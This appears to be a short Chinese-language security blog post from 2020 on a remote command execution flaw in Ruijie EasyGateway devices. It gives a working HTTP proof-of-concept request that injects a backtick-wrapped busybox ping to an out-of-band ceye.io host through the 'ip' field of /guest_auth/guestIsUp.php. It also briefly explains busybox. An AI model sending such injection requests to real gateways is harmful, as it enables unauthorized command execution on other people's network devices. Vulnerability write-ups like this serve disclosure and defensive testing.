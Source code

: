 ```yaml
---

layout:     post
title:      "锐捷易网关远程命令执行漏洞"
subtitle:   ""
date:       2020-12-29 12:00:00
author:     "seal"
header-img: "img/post-bg-infinity.jpg"
tags:
    - web安全
    - rce
typora-root-url: ../../luckseal.github.io
---
```


### goby抓包

![image-20201229104331621](/img/2020-12-29-锐捷易网关远程命令执行/image-20201229104331621.png)

估计是网络原因，请求还未到达goby log平台，客户端就去获取，因此未探测到漏洞。但是我们得到了poc，直接测试。

### Poc

```
POST /guest_auth/guestIsUp.php HTTP/1.1
Host: x.x.x.x:xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 56
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

mac=1&ip=%60busybox ping -c 2 pingtest.xxx.ceye.io%60
```



### busybox

BusyBox 是一个集成了三百多个最常用Linux命令和工具的软件。BusyBox  包含了一些简单的工具，例如ls、cat和echo等等，还包含了一些更大、更复杂的工具，例grep、find、mount以及telnet。有些人将 BusyBox 称为 Linux 工具里的瑞士军刀。简单的说BusyBox就好像是个大工具箱，它集成压缩了 Linux 的许多工具和命令，也包含了 Android 系统的自带的shell。



我测试的环境存在ping命令，因此不用busybox也可以成功执行。poc作者使用busybox的原因可能是锐捷默认会安装busybox并且测试时他们使用的命令不一定安装。



### 测试结果



![image-20201229102328491](/img/2020-12-29-锐捷易网关远程命令执行/image-20201229102328491.png)



![image-20201229102942098](/img/2020-12-29-锐捷易网关远程命令执行/image-20201229102942098.png)

![image-20201229103053455](/img/2020-12-29-锐捷易网关远程命令执行/image-20201229103053455.png)